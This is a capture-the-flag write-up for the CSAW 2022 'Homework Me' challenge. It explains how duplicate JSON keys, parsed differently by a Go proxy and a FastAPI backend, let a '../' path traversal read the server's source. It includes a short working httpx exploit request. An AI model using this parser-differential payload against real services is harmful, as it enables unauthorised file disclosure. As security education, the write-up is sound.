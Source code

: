 # Homework Me

## Challenge

Waiting for them to post at <https://github.com/osirislab/CSAW-CTF-2022-Final-WriteUps>...

## Walkthrough

The challenge had an interesting setup with a frontend Go server serving a template filled by making a call to a Python HTTP API. In essence the Go service was acting as a reverse proxy.

Our challenge was to leak the Python script as the flag was embedded within the source.

```py
import os
...
# flag{TESTFLAG}
...
```

The Python HTTP API was under 40 lines making it clear we'd be attacking the `/retrieve` endpoint to get LFI. Unfortunately for us the frontend was doing some filtering to make sure that we couldn't read outside of specific directories.

```py
@app.post("/retrieve")
async def retrieve(file: File):
    file_dict = file.dict()
    file_path = os.path.join(path, file_dict["subject"], file_dict["filename"])
    try:
        return FileResponse(file_path)
    except:
        return "file not found"
```


```go
func retrieveFile(w http.ResponseWriter, r *http.Request) {
	data, err := io.ReadAll(r.Body)
    ...
	check := false

	// check for existing files
	for _, m := range files {
		if (m["filename"] == fn) && (m["subject"] == subject) {
			check = true
		}
	}

	if check {
		bodyReader := bytes.NewReader(data)
		res, err := http.Post(requestURL+"/retrieve", "application/json", bodyReader)
        ...
    } else {
		w.Write([]byte("homework not found :("))
	}
}

```

Seeing that the request body was passed unmodified to the Python backend I tried passing 2 files to the API hoping Go would only validate the first. It worked!

```py
import httpx

r = httpx.post('http://web.chal.csaw.io:5008/homework', data='{"filename":"atom.pdf","subject":"science","filename":"main.py","subject":"../"}')
print(r.status_code, r.text)
```

During the CTF I didn't investigate further but it did get me thinking about how something like this could actually slip into production code. In this case the vulnerability occurs as the JSON library used in Go server finds the first instance of the Key while the fastapi Python library used parses the last instance. Goes to show how important consistency across parsing is.

Of course ideally when writing a service of importance you would pass the validated data to the next endpoint instead of the original request body.

## Solve

`flag{bro_can_i_use_your_chegg}`
